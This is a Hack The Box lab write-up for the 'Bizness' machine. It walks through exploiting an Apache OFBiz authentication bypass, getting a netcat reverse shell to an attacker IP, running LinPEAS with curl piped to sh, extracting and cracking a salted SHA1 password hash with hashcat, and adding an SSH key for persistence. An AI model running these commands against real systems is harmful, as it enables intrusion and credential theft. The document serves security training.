---
---

# HTB - Bizness

NMAP



- Add **bizness.htb** to /etc/hosts




- Directory bruteforce (recursive):

```bash
ffuf -u https://bizness.htb/FUZZ -recursion -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -fw 1
```



- Going to /webportal



- Clicked on Login and used the credentials given but get this error:



- Go to <https://bizness.htb/myportal>



- I can register  (**password123**)


- But can't log in



- Looking back at the home page - at the bottom:


- Googling Apache OFBiz exploit - found:
[https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass/blob/master/exploit.py](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass/blob/master/exploit.py)

[https://medium.com/@maltamas/apache-ofbiz-authentication-bypass-vulnerability-cve-2023-49070-and-cve-2023-51467-8ef010759d66](https://medium.com/@maltamas/apache-ofbiz-authentication-bypass-vulnerability-cve-2023-49070-and-cve-2023-51467-8ef010759d66)

- Trying the POC to see if it might be vulnerable:
[https://bizness.htb/webtools/control/ping?USERNAME&PASSWORD=test&requirePasswordChange=Y](https://bizness.htb/webtools/control/ping?USERNAME&PASSWORD=test&requirePasswordChange=Y)







- And using the python tool:

```bash
git clone https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass.git

python3 exploit.py --url https://bizness.htb

```



- We can also run a command with it - but the command output doesn't get returned:



- I set up a listener:

```bash
rlwrap -cAr nc -lvnp 8081

```
- I tried loads of reverse shell options but the only one that worked was:
**nc -e /bin/bash 10.10.14.18 8081**

```bash
python3 exploit.py --url https://bizness.htb --cmd "nc -e /bin/bash 10.10.14.18 8081"

```



- Got a shell:



- Upgrade shell:

```bash
/usr/bin/script -qc /bin/bash /dev/null
#PRESS Ctrl+Z
stty raw -echo
fg

#PRESS ENTER
#PRESS ENTER

export TERM=xterm
stty cols 236 rows 59
PS1="\n\[\033[1;34m\][\$(date +%H%M)][\u@\h:\w]$\[\033[0m\] "
alias ls='ls --color=auto'
reset
clear

#PRESS ENTER

```



- Upload LinPEAS:

```bash
curl http://10.10.14.18:8082/linpeas.sh | sh

```



```bash
systemctl list-units --type=service --state=running

```



- Two things stand out:
Normally /opt is empty but in this case it has the directory **ofbiz**

And the service **ofbiz.service**

- Query the service:

```bash
systemctl status ofbiz.service

```



- Search for credentials within /opt/ofbiz:

```bash
grep --color=auto -irnw . -e "credentials" 2>/dev/null

```



```bash
cat /opt/ofbiz/build.gradle

```



```bash
cat /opt/ofbiz/framework/resources/templates/AdminUserLoginData.xml

```



{SHA}47ca69ebb4bdc9ae0adec130880165d2cc05db1a

- We have a SHA1 hash but the hash is for the password ofbiz, that we found before and it doesn't work

- Try and find other hashes:

```bash
grep -E 'SHA' -rnw /opt/ofbiz

```



- More concise grep:

```bash
grep -E '\\SHA\\\[a-zA-Z0-9\]+\\\[a-zA-Z0-9\_-\]+' -rnw .

```

```bash
cat /opt/ofbiz/runtime/data/derby/ofbiz/seg0/c54d0.dat
```



- Found the salt: **d**




- First we need to convert hash to normal base64 encoding by adding padding from URL Safe
and then decode it to hex:

```python
import base64

base64_str = "uP0_QaVBpDWFeo8-dRzDqRwXQ2I"
base64_str_unsafe = base64_str.replace('-', '+').replace('_', '/')
base64_str_padded = base64_str_unsafe + '=' * ((4 - len(base64_str_unsafe) % 4) % 4)
decoded_bytes = base64.b64decode(base64_str_padded)
print(decoded_bytes.hex())

```



- Now, apply mode 120 along with hash and salt format to crack:

```bash
hashcat -m 120 -a0 'b8fd3f41a541a435857a8f3e751cc3a91c174362:d' /usr/share/wordlists/rockyou.txt

```



- Root shell:



- Create SSH key to get better shell:

```bash
ssh-keygen -t rsa -b 4096

chmod 600 id_rsa
mkdir ~/.ssh

touch ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys
echo "\<id_rsa.pub\>" >> ~/.ssh/authorized_keys
ssh ofbiz@10.129.18.39 -i id_rsa
```